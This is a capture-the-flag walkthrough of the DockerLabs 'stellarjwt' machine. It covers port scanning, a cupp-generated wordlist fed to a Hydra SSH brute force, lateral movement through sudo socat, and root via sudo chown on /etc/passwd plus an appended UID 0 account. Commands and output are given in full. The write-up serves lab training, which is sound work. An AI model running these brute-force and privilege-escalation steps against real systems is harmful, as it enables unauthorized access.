



# stellarjwt

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| stellarjwt | Alv-fh | easy/facil | dockerlabs |

**Summary:** The stellarjwt machine was a multi-stage lateral movement challenge centred on OSINT-based password generation, hidden web content, a letter containing NASA trivia answers, and a three-hop sudo chain culminating in a `/etc/passwd` ownership takeover. The web application on port 80 served a "NASA Hackeada" page. Gobuster discovered a `/universe/` directory that contained information about the astronomer Johann Gottfried Galle. This biographical data was fed into `cupp` to generate a targeted wordlist, which was then used with Hydra to bruteforce SSH and crack the password `Gottfried` for the user `neptuno`. As `neptuno`, a letter file `.carta_a_la_NASA.txt` contained NASA trivia answers, the last of which — "¿Quién fundó la NASA?" answered with "Eisenhower" — served as the password for the `nasa` account. As `nasa`, `.bash_history` revealed prior work with `socat` and showed the `sudo -l` output. The current `sudo -l` confirmed that `nasa` could run `/usr/bin/socat` as `elite` without a password. Running `sudo -u elite /usr/bin/socat stdin exec:/bin/bash` spawned an interactive shell as `elite`. As `elite`, `sudo -l` showed passwordless access to `/usr/bin/chown` as root. `chown` was used to grant `elite` ownership of `/etc/passwd`, then `openssl passwd` generated a hash for the password `rooted!`. A new root-equivalent entry `r00t` was appended to `/etc/passwd` and `su - r00t` completed the escalation.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/stellarjwt]
└─$ sudo bash auto_deploy.sh stellarjwt.tar    
[sudo] password for ouba: 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \_ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/stellarjwt]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-02 08:14 +0700
Nmap scan report for bypass403.pw (172.17.0.2)
Host is up (0.000010s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 13:fd:a1:b2:31:9d:ea:33:a1:43:af:44:20:3a:12:12 (ECDSA)
|_  256 a0:4f:c4:a9:00:af:cb:78:28:fd:94:c0:86:28:dc:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: NASA Hackeada
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 2E:76:80:38:AB:E0 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.88 seconds
```

The scan revealed SSH on port 22 and Apache on port 80 titled "NASA Hackeada".

---

## Initial Access

### Web Enumeration and OSINT-Based Password Generation

**3. Inspecting the Web Application**

The web application served a NASA-themed page.



**4. Gobuster Directory Enumeration**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/stellarjwt]
└─$ gobuster dir -u http://$ip -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html,zip,tar,env,bak,js,css,png
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              tar,bak,txt,php,html,zip,env,js,css,png
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 1905]
universe             (Status: 301) [Size: 311] [--> http://172.17.0.2/universe/]
```

A `/universe/` directory was discovered. Browsing it revealed biographical information about the astronomer Johann Gottfried Galle.

**5. Inspecting /universe/**





The page presented information identifying a person named Johann Gottfried Galle, with the nickname "galle". This OSINT data was fed into `cupp` to generate a targeted wordlist.

**6. Generating a Targeted Wordlist with cupp**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/stellarjwt]
└─$ cupp -i
 ___________ 
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\   
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: johann
> Surname: gottfried
> Nickname: galle
> Birthdate (DDMMYYYY): 


> Partners) name: 
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 


> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 


> Pet's name: 
> Company name: 


> Do you want to add some key words about the victim? Y/[N]: n
> Do you want to add special chars at the end of words? Y/[N]: n
> Do you want to add some random numbers at the end of words? Y/[N]:n
> Leet mode? (i.e. leet = 1337) Y/[N]: n

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to johann.txt, counting 520 words.
> Hyperspeed Print? (Y/n) : n
[+] Now load your pistolero with johann.txt and shoot! Good luck!
```

**7. Bruteforcing SSH with Hydra**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/stellarjwt]
└─$ hydra -l neptuno -P johann.txt -t 8 -I ssh://$ip
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-08-02 08:30:06
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 8 tasks per 1 server, overall 8 tasks, 520 login tries (l:1/p:520), ~65 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: neptuno   password: Gottfried
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-08-02 08:30:37
```

The password `Gottfried` was cracked for user `neptuno`.

### SSH Access as neptuno

**8. Logging in via SSH**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/stellarjwt]
└─$ ssh neptuno@$ip
neptuno@172.17.0.2's password: 
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.18.33.2-microsoft-standard-WSL2 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Oct 23 21:02:33 2024 from 172.17.0.1
neptuno@92ac1fdebdef:~$ id;whoami;hostname
uid=1001(neptuno) gid=1001(neptuno) groups=1001(neptuno),100(users)
neptuno
92ac1fdebdef
neptuno@92ac1fdebdef:~$ ls -la
total 36
drwxr-x--- 1 neptuno neptuno 4096 Sep 29  2024 .
drwxr-xr-x 1 root    root    4096 Oct 23  2024 ..
-rw------- 1 neptuno neptuno  327 Sep 29  2024 .bash_history
-rw-r--r-- 1 neptuno neptuno  220 Sep 29  2024 .bash_logout
-rw-r--r-- 1 neptuno neptuno 3771 Sep 29  2024 .bashrc
drwx------ 2 neptuno neptuno 4096 Sep 29  2024 .cache
-rw-rw-r-- 1 neptuno neptuno  320 Sep 29  2024 .carta_a_la_NASA.txt
drwxrwxr-x 3 neptuno neptuno 4096 Sep 29  2024 .local
-rw-r--r-- 1 neptuno neptuno  807 Sep 29  2024 .profile
```

---

## Lateral Movement

### NASA Letter Reveals Password for nasa

**9. Reading .bash_history and .carta_a_la_NASA.txt**

```bash
neptuno@92ac1fdebdef:~$ cat .bash_history 
exit
clear
ls
find /etc/passwd
find / -perm -4000 2>/dev/null
su root
find / -perm -4000 2>/dev/null
find / -perm -4000 
sudo
ls
cd ..
cd neptuno/
nano .carta_a_la_NASA.txt
ls
ls -la
cat .carta_a_la_NASA.txt 
su NASA
su nasa
cd nasa
ls
cd neptuno/
ls
ls .-la
ls -la
cat .carta_a_la_NASA.txt 
su nasa
exit
ls
sudo -l
la
su root
```

```bash
neptuno@92ac1fdebdef:~$ find / -type f -perm -4000 -exec ls -la {} \; 2>/dev/null
-rwsr-xr-- 1 root messagebus 34960 Aug  9  2024 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 342632 Aug  9  2024 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 44760 Apr  9  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 39296 Aug  9  2024 /usr/bin/umount
-rwsr-xr-x 1 root root 55680 Aug  9  2024 /usr/bin/su
-rwsr-xr-x 1 root root 51584 Aug  9  2024 /usr/bin/mount
-rwsr-xr-x 1 root root 40664 Apr  9  2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 76248 Apr  9  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 64152 Apr  9  2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 72792 Apr  9  2024 /usr/bin/chfn
-rwsr-xr-x 1 root root 277936 Apr  8  2024 /usr/bin/sudo
```

No exploitable SUID binaries were found. The letter file was read next.

```bash
neptuno@92ac1fdebdef:~$ cat .carta_a_la_NASA.txt 


Buenos días, quiero entrar en la NASA. Ya respondí las preguntas que me hicieron. Se las respondo de nuevo por aquí.

¿Qué significan las siglas NASA? -> National Aeronautics and Space Administration
¿En que año se fundo la NASA? -> 1958
¿Quién fundó la NASA? -> Eisenhower

Por favor, necesito entrar!!
```

The letter contained three NASA trivia answers. The last answer — "Eisenhower" — was the password for the `nasa` account.

**10. User Enumeration and Switching to nasa**

```bash
neptuno@92ac1fdebdef:~$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
neptuno:x:1001:1001:neptuno,,,:/home/neptuno:/bin/bash
nasa:x:1002:1002:NASA,,,:/home/nasa:/bin/bash
elite:x:1000:1000:elite,,,:/home/elite:/bin/bash
neptuno@92ac1fdebdef:~$ ls -la /home
total 20
drwxr-xr-x 1 root    root    4096 Oct 23  2024 .
drwxr-xr-x 1 root    root    4096 Aug  2 03:13 ..
drwxr-x--- 3 elite   elite   4096 Oct 23  2024 elite
drwxr-x--- 1 nasa    nasa    4096 Sep 29  2024 nasa
drwxr-x--- 1 neptuno neptuno 4096 Sep 29  2024 neptuno
```

```bash
neptuno@92ac1fdebdef:~$ su - nasa
Password: 
nasa@92ac1fdebdef:~$ id;whoami
uid=1002(nasa) gid=1002(nasa) groups=1002(nasa),100(users)
nasa
```

### nasa to elite via sudo socat

**11. Reviewing nasa's .bash_history and sudo Permissions**

```bash
nasa@92ac1fdebdef:~$ ls -la
total 32
drwxr-x--- 1 nasa nasa 4096 Sep 29  2024 .
drwxr-xr-x 1 root root 4096 Oct 23  2024 ..
-rw------- 1 nasa nasa 1896 Oct 23  2024 .bash_history
-rw-r--r-- 1 nasa nasa  220 Sep 29  2024 .bash_logout
-rw-r--r-- 1 nasa nasa 3771 Sep 29  2024 .bashrc
drwx------ 2 nasa nasa 4096 Sep 29  2024 .cache
drwxrwxr-x 3 nasa nasa 4096 Sep 29  2024 .local
-rw-r--r-- 1 nasa nasa  807 Sep 29  2024 .profile
nasa@92ac1fdebdef:~$ cat .bash_history 
exit
cd ..
ls
cd nasa/
ls
find / -perm -4000 2>/dev/null
clear
find / -perm -4000 2>/dev/null
ls -la /usr/bin/start-mission 
bash /usr/bin/start-mission 
string /usr/bin/sta
strings /usr/bin/start-mission 
clear
ls
pwd
ls -l
ls -la
cd ..
ls -la
cd ..
ls
cd nasa/
ls
cd nasa/
ls
cd ..
cd neptuno/
exit
cd ..
ls
cd nasa/
ls
sudo -l
clear
sudo -l
sudo -u elite /usr/bin/socat stdin exec:/bin/sh
ls
sudo -l
sudo -u elite /usr/bin/socat stdin exec:/bin/sh
echo 'root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
neptuno:x:1001:1001:neptuno,,,:/home/neptuno:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
nasa:x:1002:1002:NASA,,,:/home/nasa:/bin/bash
elite:x:1000:1000:elite,,,:/home/elite:/bin/bash' > /etc/passwd 
clear
sudo -l
sudo -u elite /usr/bin/socat stdin exec:/bin/sh
clear
ls
sudo -u elite /usr/bin/socat stdin exec:/bin/sh
exit
```

The `.bash_history` showed prior exploitation attempts using `socat`. The `sudo -l` confirmed the active permission.

```bash
nasa@92ac1fdebdef:~$ sudo -l
Matching Defaults entries for nasa on 92ac1fdebdef:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User nasa may run the following commands on 92ac1fdebdef:
    (elite) NOPASSWD: /usr/bin/socat
nasa@92ac1fdebdef:~$ sudo -u elite /usr/bin/socat stdin exec:/bin/bash
2026/08/02 03:36:29 socat[268] W address is opened in read-write mode but only supports read-only
id
uid=1000(elite) gid=1000(elite) groups=1000(elite),100(users)
```

A shell as `elite` was obtained via `socat`.

---

## Privilege Escalation

### sudo chown to Take Ownership of /etc/passwd

**12. Checking elite's sudo Permissions**

```bash
sudo -l
Matching Defaults entries for elite on 92ac1fdebdef:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User elite may run the following commands on 92ac1fdebdef:
    (root) NOPASSWD: /usr/bin/chown
```

`elite` could run `/usr/bin/chown` as root without a password. This allowed granting ownership of any file to any user, including `/etc/passwd`. Once `elite` owned `/etc/passwd`, it could be written to directly.

**13. Claiming /etc/passwd and Injecting a Root Entry**

```bash
sudo -u root /usr/bin/chown elite:elite /etc/passwd
ls -la /etc/passwd
-rw-r--r-- 1 elite elite 1300 Oct 23  2024 /etc/passwd
openssl passwd rooted!
$1$tBYK4uOJ$zFQrjeZh1R3uPxcPoIsCK1
echo 'r00t:$1$tBYK4uOJ$zFQrjeZh1R3uPxcPoIsCK1:0:0:root:/root:/bin/bash' >> /etc/passwd
tail -n 1 /etc/passwd
r00t:$1$tBYK4uOJ$zFQrjeZh1R3uPxcPoIsCK1:0:0:root:/root:/bin/bash
```

**14. Escalating to Root**

```bash
su - r00t
Password: rooted!
id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
92ac1fdebdef
```

Full root access was achieved.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified SSH on port 22 and Apache on port 80 titled "NASA Hackeada". Gobuster discovered a `/universe/` directory containing biographical information about the astronomer Johann Gottfried Galle.
2. **Credential Generation**: The OSINT data from `/universe/` was used to generate a targeted wordlist with `cupp`, providing first name `johann`, surname `gottfried`, and nickname `galle`. Hydra bruteforced SSH against user `neptuno` and cracked the password `Gottfried`.
3. **Lateral Movement to nasa**: As `neptuno`, the letter file `.carta_a_la_NASA.txt` contained NASA trivia answers, the last being "¿Quién fundó la NASA? -> Eisenhower". The word `Eisenhower` authenticated for the `nasa` account via `su`.
4. **Lateral Movement to elite**: As `nasa`, `.bash_history` and `sudo -l` both confirmed passwordless access to `/usr/bin/socat` as `elite`. Running `sudo -u elite /usr/bin/socat stdin exec:/bin/bash` spawned an interactive shell as `elite`.
5. **Privilege Escalation**: As `elite`, `sudo -l` showed passwordless access to `/usr/bin/chown` as root. Ownership of `/etc/passwd` was transferred to `elite` via `sudo chown`. `openssl passwd` generated a hash for `rooted!`. A new `/etc/passwd` entry `r00t` with UID 0 was appended. `su - r00t` with the password `rooted!` produced a clean root shell.
